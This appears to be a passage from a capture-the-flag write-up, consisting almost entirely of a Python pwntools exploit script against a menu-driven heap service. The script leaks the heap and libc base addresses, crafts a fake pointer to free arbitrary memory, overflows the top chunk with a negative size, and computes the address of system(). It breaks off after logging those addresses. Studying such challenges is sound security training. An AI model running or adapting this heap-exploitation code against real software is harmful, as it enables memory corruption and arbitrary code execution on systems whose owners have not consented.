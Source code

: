 ``` python
def give(size, data):
    p.sendline('give')
    p.sendline(str(size))
    p.sendline(str(data))

def get():
    p.sendline('get')

def clear():
    p.sendline('clear')

def free_addr(addr):
    a = 'A'*8 + p32(0) + p32(addr)
    a = a[:-1] + '\n'
    p.sendline(a)
    clear()

def leak_heap_base():
    for i in range(2):
        give(4, 'A'*4)
        p.recvuntil('stored')
        get()
        p.recvuntil('data:')
    clear()
    give(1, 'B')
    p.recvuntil('stored')
    get()
    p.recvuntil('data:')
    p.recvuntil('B')
    leak = p.recvline()[:-1]

    heap_base = u32(('\x00' + leak).ljust(4, '\x00'))
    return heap_base

def leak_libc_base():
    for i in range(2):
        give(600, 'AA')
        p.recvuntil('stored')
        get()
        p.recvuntil('data:')

    clear()
    for i in range(2):
        give(1, 'B')
        p.recvuntil('stored')
        get()
        p.recvuntil('data:')
    p.recvuntil('B')
    leak = p.recvline()[:-1]

    leak_offset = 0x1507f8
    libc_base = u32(leak[3:]) - leak_offset
    return libc_base

def overflow_top_chunk():
    give(-1, 'A'*191) # newline makes this 192 bytes

def main():
    # Leak the libc_base
    libc_base = leak_libc_base()
    system_addr = libc_base + system_offset
    log.info('libc_base: 0x%x' % libc_base)
    log.info('system_addr: 0x%x' % system_addr)
```